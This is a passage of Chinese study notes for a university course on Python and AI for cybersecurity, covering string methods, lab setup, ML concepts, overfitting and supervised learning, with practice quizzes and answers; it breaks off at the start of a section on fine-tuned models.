## 5. 🟡 What / Why Python（Slide 17）



*What is Python → Why for this course → Why it fits（Slide 17）*

| 问题                  | 课件原文                                                                                                                                               | 中文                         |
| ------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------- |
| What is Python      | Readable · automation, data, AI tooling                                                                                                            | 好读；做自动化、数据处理、AI 工具         |
| Why for this course | AI-powered apps · cyber AI tooling · transferable                                                                                                  | 做 AI 应用和网安 AI 工具；学会了能迁移到别处 |
| Why it fits         | Readability for business learners · Less complexity · One language: scripts, APIs, packages, projects · You still own judgment when AI drafts code | 商科学生也能读懂；一门语言从脚本写到项目       |

---

## 6. 🔴 OOPL：对象、属性、方法（Slide 18）



*object.property Vs object.method()（Slide 18）*

**OOPL = Object-Oriented Programming Language**（面向对象编程语言）。课件说只需要 *enough mental model to read demo code — not a full OOP course*。

| 概念              | 课件原文                                                          | 中文 / 小白解释       | 例子                     |
| --------------- | ------------------------------------------------------------- | --------------- | ---------------------- |
| **Object 对象**   | Bundles of data (state) that represent things in your program | 把「一样东西的数据」打包在一起 | 一个字符串、一个用户、一张工单、一次模型返回 |
| **Property 属性** | Data attributes of an object (**its state**)                  | 对象「是什么样」——名词    | 字符串的长度 / 内容            |
| **Method 方法**   | Actions an object can perform (**how it behaves**)            | 对象「能做什么」——动词    | `.upper()`、`.split()`  |

**写法的区别就是一对括号**：

```python
df.shape          # property：读状态，没有括号
s.upper()         # method：执行动作，有括号，可以带参数 s.split(",")
len(s)            # 内置函数：括号里放对象（Python 里字符串长度用 len() 取，没有 s.length）
```

> **💡 小白类比**
>
> 对象 = 一台咖啡机。**属性**是它的状态：水箱还剩多少水、现在几度（看一眼就知道，不用按按钮）。**方法**是它的按钮：`make_latte()`、`clean()`（按下去它才做事，有的按钮还要你先选杯型 = 参数）。

*（网页版此处可以自己改字符串 s，点各种方法看 Python 会输出什么；下表是 s = "  URGENT: Verify your password at http\://bit.ly/x  " 的结果）*

| 代码                               | 返回类型                          | 输出                                                                   | 说明                                                   |
| -------------------------------- | ----------------------------- | -------------------------------------------------------------------- | ---------------------------------------------------- |
| `len(s)`                         | int                           | `51`                                                                 | str 的「长度」是它的状态，但 Python 用内置函数 len() 取，不是 s.length    |
| `s.upper()`                      | str                           | `'  URGENT: VERIFY YOUR PASSWORD AT HTTP://BIT.LY/X  '`              | 全部大写，返回新字符串                                          |
| `s.lower()`                      | str                           | `'  urgent: verify your password at http://bit.ly/x  '`              | 全部小写：比较关键词前常先 lower()，大小写就不影响匹配                      |
| `s.strip()`                      | str                           | `'URGENT: Verify your password at http://bit.ly/x'`                  | 去掉两头的空白（中间的不动），清洗用户输入的第一步                            |
| `s.split()`                      | list                          | `['URGENT:', 'Verify', 'your', 'password', 'at', 'http://bit.ly/x']` | 不给参数：按任意空白切开，返回 list                                 |
| `s.split(":")`                   | list                          | `['  URGENT', ' Verify your password at http', '//bit.ly/x  ']`      | 给了分隔符：严格按它切，两头的空白会留着                                 |
| `s.replace("http", "hxxp")`      | str                           | `'  URGENT: Verify your password at hxxp://bit.ly/x  '`              | 替换全部出现的位置；安全报告里把链接改成 hxxp 让它不能点（defang）              |
| `s.lower().count("password")`    | int                           | `1`                                                                  | 方法可以串起来：先 lower() 得到新字符串，再在新字符串上 count()             |
| `s.strip().startswith("URGENT")` | bool                          | `True`                                                               | 返回 True / False，可以直接放进 if                            |
| `s.find("http")`                 | int                           | `34`                                                                 | 第一次出现的位置（从 0 数）；找不到返回 -1                             |
| `s.title()`                      | str                           | `'  Urgent: Verify Your Password At Http://Bit.Ly/X  '`              | 每个单词首字母大写                                            |
| `s.upper`                        | builtin\_function\_or\_method | `<built-in method upper of str object at 0x10a3f2b70>`               | 忘了括号：拿到的是「方法本身」，没有执行。代码不报错，但结果不是你要的——AI 生成的代码里也会有这种错 |

> **⚠️ 两个最常见的坑**
>
> 1. **忘了括号**：`s.upper` 不会报错，只会给你一个 `<built-in method ...>`。读 AI 写的代码时看到「方法名后面没括号」要警惕。
> 2. **以为方法改了原字符串**：`s.upper()` 返回新字符串，`s` 本身不变（str 是 **immutable 不可变**的）。要保留结果得写 `s = s.upper()`。

*（网页版此处是点选练习：这是 property、method，还是内置函数？（Slide 18）；下表是全部题目和答案）*

| 情景                                                | 答案                  | 理由                                                              |
| ------------------------------------------------- | ------------------- | --------------------------------------------------------------- |
| s.upper()                                         | **object.method()** | 点后面带括号 = 让对象做一个动作                                               |
| len(s)                                            | **内置函数 func(obj)**  | 长度是 str 的状态，但 Python 用内置函数 len() 取，括号里放对象。不是 s.len，也不是 s.length |
| df.shape（pandas 表格有几行几列）                          | **object.property** | 点后面没有括号 = 读一个属性（状态）。下周讲 packages 会用到                            |
| df.head()（看表格前 5 行）                               | **object.method()** | 带括号 = 执行一个动作                                                    |
| response.status\_code（requests 调 API 的返回码，例如 200） | **object.property** | 属性：这次请求的结果是什么状态                                                 |
| text.split(",")                                   | **object.method()** | 方法可以带参数，参数写在括号里                                                 |
| print(f"Score: {score:.2f}")                     | **内置函数 func(obj)**  | print 是内置函数，不是哪个对象的方法                                           |
| (3 + 4j).real                                     | **object.property** | 复数的实部是属性，不用括号，结果 3.0                                            |

---

## 7. 🟡 Python Essentials + Lab 01（Slide 19、30 + Lab1.ipynb）



*Essentials + hands-on：student notebook + local playground（Slide 19）*

本周要接触的语法：**variables & types · print / f-strings · if & loops（skim）**。练习在 `Python_Basics_Day01_student.ipynb` 和本地的 Python Basics playground（`run.bat` 启动）。

> **➕ 课外补充：这几样语法长什么样**
>
> ```python
> # variables & types
> email = "Verify your password now"   # str
> score = 0.87                          # float
> flagged = 3                           # int
> is_phishing = score >= 0.5            # bool → True
>
> # print / f-strings：字符串前加 f，花括号里放变量；:.2f = 保留两位小数
> print(f"Score: {score:.2f}, phishing? {is_phishing}")   # Score: 0.87, phishing? True
>
> # if
> if score >= 0.8:
>     action = "block"
> elif score >= 0.5:
>     action = "send to analyst"
> else:
>     action = "allow"
>
> # for loop
> for word in ["password", "verify", "urgent"]:
>     if word in email.lower():
>         print(f"found: {word}")
> ```
>
> Python 用**缩进**表示代码块（不像 C / Java 用花括号），冒号 `:` 后面下一行要缩进 4 个空格。

> **📝 待补**
>
> 还没有拿到 `Python_Basics_Day01_student.ipynb`。拿到后对照它补全本节（题目 + 我的解答）。

### 🟢 Lab 01 setup 清单（Lab1.ipynb + Slide 30）

| 任务         | 做什么                                                                                  |
| ---------- | ------------------------------------------------------------------------------------ |
| Task 1     | VS Code 装扩展：**Python**、**Jupyter**、**Continue**                                      |
| Task 2     | Anaconda 虚拟环境：`conda --version` 检查 → `conda create -n ISOM5160 python=3.11` → 激活并验证  |
| Task 3     | 把 HKUST GenAI 模型接进 VS Code Chat（Custom Endpoint + API key + Chat Completions，见第 3 节） |
| Task 4     | `Chat: Open Chat`，在模型选单里选自己加的模型                                                      |
| Next steps | 注册 **GitHub**、**Hugging Face**、**HK GenAI Models** 三个账号                              |

> **➕ 为什么要虚拟环境 (virtual environment)**
>
> 每门课 / 每个项目用一个独立的 Python + 一套独立的 package 版本，互不打架。部署时 `requirements.txt` 记录的就是这个环境里装了什么。

---

## 8. 🔴 网安问题 → 为什么需要 AI（Slide 21）



*Problem shapes → bridge to AI（Slide 21）*

| 问题形态（课件原文）                                                               | 中文 / 小白解释                          |
| ------------------------------------------------------------------------ | ---------------------------------- |
| **Rules hit limits** — Fixed rules miss new wording → systems that learn | 关键词规则一换说法就漏，所以要「从数据学」的系统           |
| **Text-heavy threats** — Phishing emails, risky URLs, attack-like text   | 很多威胁本质上是一段文字                       |
| **Text in → judgment out** — Triage / flag / label · person still checks | 输入文字，输出判断（分诊、标记、贴标签），**人仍然要复核**    |
| **Policy / framework text** — NIST-style wording is also a text problem  | 政策、框架条文也是文本问题（例如把一段话归到 NIST 的哪个功能） |

**Key takeaways**：Text problems · Rules ≠ enough · Learn from data · Human checks。

> **💼 业务语言怎么说**
>
> 「规则维护不过来」是成本问题（每出现一种新话术就要人改规则）；「漏报」是风险问题；「人工复核」是流程设计——模型把 1,000 封邮件分成「明显正常 / 明显钓鱼 / 不确定」三堆，分析师只看不确定那一堆，这就是 **triage（分诊）** 的商业价值。第 14 节的小实验能看到这三堆。

---

## 9. 🟡 AI ⊃ ML ⊃ DL ⊃ Transformer（Slide 23）



*Artificial Intelligence：AI ⊃ ML ⊃ DL，Transformer ⊂ DL（Slide 23）*

| 圈                              | 课件定义                                                                                                                                                | 中文 / 关键词                |
| ------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------- |
| **AI** Artificial Intelligence | Machines or computer systems that can perform tasks that typically **require human intelligence**                                                   | 能做需要人类智能的事（包括人写死的规则系统）  |
| **ML** Machine Learning        | A type of AI that enables computers to **learn from data without being explicitly programmed**; algorithms that improve their performance over time | **从数据学**，不是人一条条写规则      |
| **DL** Deep Learning           | A specialized form of ML that involves **neural networks with multiple layers**, aiming to simulate the way the human brain works                   | **多层神经网络**，能做更复杂的任务     |
| **Transformer**                | ⊂ Deep Learning · **modern NLP / GenAI**                                                                                                            | 今天的大语言模型（GPT、BERT 等）都是它 |

**Key takeaways**：**Lots of data**（越往里圈越吃数据）· **Transformers ⊂ DL**。

> **🧠 记忆口诀**
>
> **AI 是目标，ML 是方法（从数据学），DL 是 ML 里用多层神经网络的那一支，Transformer 是 DL 里专门擅长处理文字的那种结构。** 第 8 节的「Rules hit limits」就是从 AI 最外圈（人写规则）往 ML 走的理由。

*（网页版此处是点选练习：最准确地说，这属于哪一圈？（Slide 23）；下表是全部题目和答案）*

| 情景                                    | 答案                      | 理由                                                                          |
| ------------------------------------- | ----------------------- | --------------------------------------------------------------------------- |
| 专家写好上百条 if-then 规则的病毒查杀系统，规则不会自己变     | **AI（但不是 ML）**          | 能做需要人类智能的事 = AI；但规则是人写死的，不是从数据里学（not learn from data），所以不是 ML               |
| 用过去一年的登录日志训练一棵决策树，判断某次登录是否可疑          | **ML（但不是 DL）**          | 从数据里学规律 = ML；决策树不是多层神经网络，所以不算 DL                                            |
| 多层卷积神经网络 (CNN) 把恶意软件的二进制画成图片再分类       | **DL（但不是 Transformer）** | 多层神经网络 = DL；CNN 是 DL 的一种模型家族，但不是 Transformer（Slide 24）                      |
| BERT / GPT 这类模型读一封邮件，输出 phishing / ok | **Transformer**         | BERT、GPT 都是 Transformer 架构，现代 NLP / GenAI 的主力（Slide 23 黄框：Transformer ⊂ DL） |
| LSTM 逐字读入网址字符串，判断是不是恶意 URL            | **DL（但不是 Transformer）** | LSTM 是 RNN 的改进版，属于 DL，但不是 Transformer                                       |
| ChatGPT、DeepSeek、Copilot 背后的大语言模型     | **Transformer**         | 今天主流的大语言模型 (LLM) 都是 Transformer                                             |
| K-Means 把客户自动分成 4 群                   | **ML（但不是 DL）**          | 从数据学 = ML；K-Means 是传统算法，没有神经网络                                              |

---

## 10. 🟢 Model families（Slide 24）



*Model families：DNN · CNN · RNN / LSTM · RL · Transformer（被特别标出）（Slide 24）*

| 模型家族                                                               | 一句话                                            | 典型用途                       |
| ------------------------------------------------------------------ | ---------------------------------------------- | -------------------------- |
| **DNN** Deep Neural Network                                        | 很多层全连接的神经网络                                    | 表格数据分类                     |
| **CNN** Convolutional Neural Network                               | 用小窗口扫图片找局部特征                                   | 图像识别                       |
| **RNN** Recurrent Neural Network / **LSTM** Long Short-Term Memory | 按顺序一个个读，带「记忆」；LSTM 记得更久                        | 文本、时间序列（Transformer 之前的主流） |
| **RL** Reinforcement Learning                                      | Agent 在环境里试错，靠奖励学习（图里 Environment ↔ Agent 的回路） | 游戏、机器人、决策                  |
| **Transformer**                                                    | 用 attention 一次看整段文字，可并行                        | **现代 NLP / GenAI**——本课用的模型 |

> **📌 注意**
>
> 课件只放了每种模型的结构图，没有展开。这一页的信息就是：**Transformer 是这门课的主角**（课件用黄色爆炸框单独标出）。表里的「一句话」和「典型用途」是我补的背景。

---

## 11. 🟡 Overfitting 过拟合（Slide 25）



*Overfitting（Slide 25）*

课件这一页只有一张图：从婴儿到老人，每个年龄段都是同一张成年人的脸。**我的理解**：模型只记住了训练里见过的那张脸，于是不管让它生成哪个年龄，输出的都是训练样本本身——**背下了训练数据，却没学会「人怎么随年龄变化」这条规律**。

| 术语                    | 定义                      | 表现            |
| --------------------- | ----------------------- | ------------- |
| **Overfitting 过拟合**   | 模型把训练数据（包括其中的噪声和偶然）背了下来 | 训练集上很准，新数据上很差 |
| **Underfitting 欠拟合**  | 模型太简单，连训练数据的规律都没学到      | 训练集、新数据都差     |
| **Generalization 泛化** | 在没见过的数据上也表现好            | 这才是目标         |

*（网页版此处可以拖动多项式次数，看曲线怎么从「太简单」变成「背答案」；下表是 10 个训练点、10 个测试点的均方误差）*

| degree | 训练误差  | 测试误差  | 判断                |
| ------ | ----- | ----- | ----------------- |
| 0      | 1.112 | 1.042 | Underfitting 欠拟合  |
| 1      | 0.551 | 0.347 | Underfitting 欠拟合  |
| 2      | 0.551 | 0.350 | Underfitting 欠拟合  |
| 3      | 0.073 | 0.069 | **刚好 (good fit)** |
| 4      | 0.065 | 0.087 | **刚好 (good fit)** |
| 5      | 0.055 | 0.107 | Overfitting 过拟合   |
| 6      | 0.042 | 0.147 | Overfitting 过拟合   |
| 7      | 0.032 | 0.156 | Overfitting 过拟合   |
| 8      | 0.003 | 0.231 | Overfitting 过拟合   |
| 9      | 0.000 | 0.174 | Overfitting 过拟合   |

> **🎯 和期末项目的关系**
>
> 项目 E 部分（Expected Results，15%）考 *quality of testing and validation*。要证明模型好，**必须用训练时没见过的数据测试**（train / test split）。只报训练集上的准确率，等于没测。Week 6 Model Evaluation 会正式讲。

---

## 12. 🔴 Supervised vs Unsupervised Learning（Slide 26）



*Supervised：Labelled data → learn the boundary；Unsupervised：No labels → discover the groups（Slide 26）*

|      | **Supervised Learning 监督学习**                                                                            | **Unsupervised Learning 无监督学习**                                                                |
| ---- | ------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------- |
| 数据   | **Labelled data**（每条数据都有正确答案）                                                                           | **No labels**                                                                                  |
| 学什么  | **Learn the boundary**（图里：一条线把 ○ 和 × 分开）                                                                | **Discover the groups**（图里：点自己聚成三团）                                                            |
| 任务 1 | **Classification** — predict a **category**：spam vs not spam · loan default · tumour benign / malignant | **Clustering** — group similar items：customer segmentation · news topic grouping · gene groups |
| 任务 2 | **Regression** — predict a **number**：house prices, sales forecast                                      | **Dimensionality reduction**：PCA, anomaly detection                                            |

**Key takeaways**：Supervised learning · **Classification** · **Labels** —— 本课主线是**有标签的分类**。

> **🧠 记忆口诀**
>
> **有答案 → 监督；没答案 → 无监督。输出是类别 → 分类；输出是数字 → 回归。**

*（网页版此处是点选练习：这是哪种学习任务？（Slide 26）；下表是全部题目和答案）*

| 情景                          | 答案                    | 理由                                                              |
| --------------------------- | --------------------- | --------------------------------------------------------------- |
| 邮件 → spam / not spam        | **Classification 分类** | 有标签、输出是类别 = supervised classification                           |
| 根据面积、楼层、地段预测房价（港币）          | **Regression 回归**     | 有标签、输出是一个数字 = supervised regression                             |
| 没有标签，把新闻按话题自动分堆             | **Clustering 聚类**     | 没有标签、找相似的分组 = unsupervised clustering（课件例子 News topic grouping） |
| 网址 → phishing / ok，再给一个风险分数 | **Classification 分类** | 分数只是「有多确定」，最后要选一个类别，所以还是 classification（Slide 28）               |
| 预测下个季度的销售额                  | **Regression 回归**     | 输出是连续的数字 = regression（课件例子 sales forecast）                      |
| 把 200 个特征压缩成 2 个方便画图（PCA）   | **降维 / 异常检测**         | unsupervised 的 dimensionality reduction，课件点名 PCA                |
| 没有攻击标签，找出和平时流量差别特别大的那几条     | **降维 / 异常检测**         | 课件把 anomaly detection 和降维写在一起，都是 unsupervised                   |
| 按购买行为把客户分成几个群做营销            | **Clustering 聚类**     | customer segmentation，课件 clustering 的第一个例子                      |
| 贷款申请 → 会违约 / 不会违约           | **Classification 分类** | Loan default，课件 classification 的例子                              |

---

## 13. 🔴 Finetuned models（Slide 27）



*Finetuned models：Pretrained → Dataset → Fine-tune → Compare（Slide 27）*

*Make the model yours — big picture only (no deep math today).*

| 步骤                                 | 课件原文                                                      | 中文 / 小白解释                                    |
